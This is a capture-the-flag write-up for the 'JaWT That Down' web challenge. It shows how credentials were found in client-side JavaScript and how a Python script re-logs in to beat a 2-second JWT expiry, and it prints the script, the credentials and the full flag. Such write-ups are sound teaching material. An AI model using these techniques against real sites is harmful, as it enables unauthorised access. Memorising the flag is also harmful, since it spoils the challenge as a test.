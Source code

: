 # JaWT That Down

## Challenge Description
> The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.

## Solution
I saw that there was a login dashboard and that it required a username and a password.
So I tried to insert a ```'``` and a couple others to see if it breaks something - it did not.

After realizing it wasn't a SQLi, I tried to look at the script that is being loaded on the login screen /js/login.js.
It was minified and most of it wasn't important, I searched for the keyword "username" to see where the credentials are being passed,
and I saw that the developer left the credentials in the script:

![image](https://user-images.githubusercontent.com/54234250/167389421-0869bd99-0435-499f-8f3d-7aab0d889eaf.png)

After I logged in, a new tab showed up called "Flag" which leads to ```https://jawt.sdc.tf/s```, I pressed it and got ```Invalid Token: Access Denied```,
my initial thought was to look at the cookie because it said ```Invalid Token``` which maybe referred to the token in the cookie:

![image](https://user-images.githubusercontent.com/54234250/167390289-2e296c73-1ce9-4bd1-b2f0-52fabd25f2f8.png)

It is base64 encoded, and I recognize that is it a ```JWT``` token - fits to the title of the challenge.

![image](https://user-images.githubusercontent.com/54234250/167390689-969da869-86d2-4e4e-b55a-36e603c5a58e.png)

We see that the token expires after 2 seconds because of the ```exp``` field.
So I figured that we need a script to access that directory in time, so I wrote this:

```python
import requests

sess = requests.Session()
url = "https://jawt.sdc.tf/"

# find username and password from /js/login.js
def login():
	sess.post(url + "login", data={"username":"AzureDiamond", "password":"hunter2"})
	
login()
resp = sess.get(url + "s")
print(resp.text)
```
The output was ```d```, and after a moment of thinking what could that mean, I came with an idea that maybe we need to iterate through the directories and assemble the flag that way.
I tried to access the next directory ```https://jawt.sdc.tf/d```, but that just gave ```Not Found```, so after another moment of thinking, I tried different cominations until I found something that worked - ```https://jawt.sdc.tf/s/d```, and because the token expired after two seconds, my script couldn't assemble the full flag in time, so I just logged in again when I got the ```Access Denied``` message.

here is the full script:
```python
import requests

sess = requests.Session()
url = "https://jawt.sdc.tf/"

# find username and password from /js/login.js
def login():
	sess.post(url + "login", data={"username":"AzureDiamond", "password":"hunter2"})

def get_next_dir():
	resp = sess.get(url + flag)
	return resp.text


next_dir = "s"
flag = next_dir
while next_dir != '}':
	next_dir = get_next_dir()
	if "Access" in next_dir:
		login()
		next_dir = get_next_dir()
		
	flag += "/" + next_dir
	print(flag.replace("/", ""))
```
Output:
```
sd
sdc
sdct
sdctf
sdctf{
sdctf{T
sdctf{Th
sdctf{Th3
sdctf{Th3_
sdctf{Th3_m
sdctf{Th3_m0
sdctf{Th3_m0r
sdctf{Th3_m0r3
sdctf{Th3_m0r3_
sdctf{Th3_m0r3_t
sdctf{Th3_m0r3_t0
sdctf{Th3_m0r3_t0k
sdctf{Th3_m0r3_t0k3
sdctf{Th3_m0r3_t0k3n
sdctf{Th3_m0r3_t0k3ns
sdctf{Th3_m0r3_t0k3ns_
sdctf{Th3_m0r3_t0k3ns_t
sdctf{Th3_m0r3_t0k3ns_th
sdctf{Th3_m0r3_t0k3ns_the
sdctf{Th3_m0r3_t0k3ns_the_
sdctf{Th3_m0r3_t0k3ns_the_l
sdctf{Th3_m0r3_t0k3ns_the_le
sdctf{Th3_m0r3_t0k3ns_the_le5
sdctf{Th3_m0r3_t0k3ns_the_le55
sdctf{Th3_m0r3_t0k3ns_the_le55_
sdctf{Th3_m0r3_t0k3ns_the_le55_p
sdctf{Th3_m0r3_t0k3ns_the_le55_pr
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0b
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3m
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_a
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_ad
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}
```
